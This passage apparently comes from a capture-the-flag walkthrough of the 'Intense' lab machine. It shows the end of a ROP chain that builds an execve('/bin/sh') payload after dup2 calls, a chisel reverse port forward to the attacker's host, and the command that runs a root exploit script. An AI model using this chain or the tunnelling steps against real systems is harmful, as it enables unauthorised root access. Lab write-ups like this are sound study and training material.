 ```
       payload_execve=pop_rdi_ret_address
       payload_execve+=binsh_address
       payload_execve+=pop_rsi_ret_address
       payload_execve+=p64(0)
       payload_execve+=pop_rdx_ret_address
       payload_execve+=p64(0)
       payload_execve+=execve_address
       # Final payload
       final_payload= payload_dup2 +payload_execve
```

#### Test in Remote

I created a python script which exploit the binary locally using the same binary with same debugging modification, and the local libc, and also with the remote binary.

###### Nota:
**The server run locally so i had to use chisel to forward the port 5001, in my machine :**

```
$ ./chisel client --max-retry-count 1  10.10.14.X:8000 R:5001:127.0.0.1:5001
```

![chisel](https://github.com/roughiz/Intense-walktrough/blob/main/images/chisel.png)

And i can see the port 5001 listening  in my machine :

```
$ lsof -ni :5001         
COMMAND  PID    USER   FD   TYPE   DEVICE SIZE/OFF NODE NAME
chisel  6499 user    6u  IPv4 10349808      0t0  TCP *:5001 (LISTEN)
```


### Root shell 

#### Exploit [code](https://github.com/roughiz/Intense-walktrough/blob/main/code/root.py)

```
$ python3 root.py -i 127.0.0.1 -p 5001
```
